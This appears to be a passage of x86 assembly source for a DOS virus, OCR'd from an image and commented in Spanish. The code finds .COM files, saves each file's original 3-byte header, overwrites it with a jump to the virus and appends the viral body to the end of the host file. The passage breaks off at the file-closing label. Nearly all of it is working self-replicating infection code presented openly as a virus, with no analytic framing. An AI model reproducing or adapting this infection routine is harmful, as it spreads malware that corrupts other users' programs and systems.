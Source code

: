     sub bp, offset d_offset 
                
    mov cx, 3                             ; restaurar cabezal original  
    lea si, [bp + host_head]  
    mov di, 100h  
    rep movsb
    
    mov ah, 4Eh                           ; | AH = 4Eh  
    xor cx, cx                            ; | CX = 0, archivos normales  
    lea dx, [bp + search_str]             ; | DS:DX -> "*.COM"  
    int 21h                               ; |_DOS API - Buscar primer archivo
    
    jnc infect_file                       ; archivo encontrado  
    jmp exit                              ; no hay archivo

find_next:    
    mov ah, 4Fh                           ; | AH = 4Fh  
    int 21h                               ; |_DOS API - Buscar siguiente archivo 

    jc exit                               ; no hay archivo

infect_file:   
    mov ah, 3Dh                           ; | AH = 3Dh  
    mov al, 2                             ; | AL = 2, lectura y escritura  
    mov dx, 9Eh                           ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)  
    int 21h                               ; |_DOS API - Abrir archivo existente

    jc find_next                          ; no se puede abrir archivo, buscar siguiente archivo  
    push ax                               ; guardar handle y continuar infección
      
    mov ah, 3Fh                           ; | AH = 3Fh  
    pop bx                                ; | BX = handle del archivo  
    mov cx, 3                             ; | CX = tamaño del cabezal, 3 bytes  
    lea dx, [bp + host_head]              ; | DS:DX -> destino: buffer para cabezal original  
    int 21h                               ; |_DOS API - Leer de archivo/dispositivo
      
    jc close_file                         ; no se puede leer el archivo, cerrarlo

    mov ax, 4200h                         ; | AX = 4200h (principio del archivo)  
    xor cx, cx                            ; | CX = 0  
    xor dx, dx                            ; | DX = 0  
    int 21h                               ; |_DOS API - Establecer puntero en archivo 
    
    jc close_file                         ; no se puede trabajar con el archivo, cerrarlo
    
    mov ax, word ptr [ds:9Ah]             ; calcular el largo del JMP para el cabezal viral, DTA+1Ah=9Ah (FileSize)  
    sub ax, 3                             ; restarle 3 bytes del near JMP
    
    mov byte ptr [bp + tmp_head], 0E9h    ; construir cabezal viral en buffer temporal (E9h = near JMP)  
    mov word ptr [bp + tmp_head + 1], ax
    
    mov ah, 40h                           ; | AH = 40h  
    mov cx, 3                             ; | CX = tamaño del cabezal, 3 bytes  
    lea dx, [bp + tmp_head]               ; | DS:DX -> origen: buffer temporal para cabezal viral  
    int 21h                               ; |_DOS API - Escribir en archivo/dispositivo 
    
    jc close_file                         ; no se puede trabajar con el archivo, cerrarlo
    
    mov ax, 4202h                         ; | AX = 4202h (fin del archivo)  
    xor cx, cx                            ; | CX = 0  
    xor dx, dx                            ; | DX = 0  
    int 21h                               ; |_DOS API - Establecer puntero en archivo 
    
    jc close_file                         ; no se puede trabajar con el archivo, cerrarlo
    
    mov ah, 40h                           ; | AH = 40h  
    mov cx, VIRUS_SIZE                    ; | CX = tamaño del virus  
    lea dx, [bp + body]                   ; | DS:DX -> origen: inicio del código viral  
    int 21h                               ; |_DOS API - Escribir en archivo/dispositivo

close_file:   